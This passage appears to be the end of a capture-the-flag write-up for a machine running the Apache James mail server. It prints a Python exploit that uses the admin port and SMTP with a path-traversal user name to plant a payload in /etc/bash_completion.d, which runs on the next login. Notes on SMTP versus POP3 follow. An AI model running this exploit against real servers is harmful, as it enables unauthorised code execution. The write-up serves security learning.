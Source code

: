  ```python
     s.connect((ip,4555))
     s.recv(1024)
     s.send(user + "\n")
     s.recv(1024)
     s.send(pwd + "\n")
     s.recv(1024)
     print "[+]Creating user..."
     s.send("adduser ../../../../../../../../etc/bash_completion.d exploit\n")
     s.recv(1024)
     s.send("quit\n")
     s.close()

     print "[+]Connecting to James SMTP server..."
     s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
     s.connect((ip,25))
     s.send("ehlo team@team.pl\r\n")
     recv(s)
     print "[+]Sending payload..."
     s.send("mail from: <'@team.pl>\r\n")
     recv(s)
     # also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>\r\n") if the recipient cannot be found
     s.send("rcpt to: <../../../../../../../../etc/bash_completion.d>\r\n")
     recv(s)
     s.send("data\r\n")
     recv(s)
     s.send("From: team@team.pl\r\n")
     s.send("\r\n")
     s.send("'\n")
     s.send(payload + "\n")
     s.send("\r\n.\r\n")
     recv(s)
     s.send("quit\r\n")
     recv(s)
     s.close()
     print "[+]Done! Payload will be executed once somebody logs in."
 except:
     print "Connection failed."
 ```   

     

## Where I Got Stuck?  
* I kept researching something that is irrelevant which was the chroot even though there was alot of evidence that it was a lost cause. 
   

## What Did I learn from this Machine?  
  * The ability to telnet should be disabled ( I could've used nc so I don't think that's the real problem here). 
  * SMTP is a message transfer agent whereas POP3 is a message access agent.  
  * SMTP transfers mail from senders computer to the mail box present on receiver's mail server. POP3 it allows to retrieve and organize mails from mailbox on receiver mail server to receiver's computer.  
  * I think that's why I was able to view emails on the POP3 and not on the SMTP.

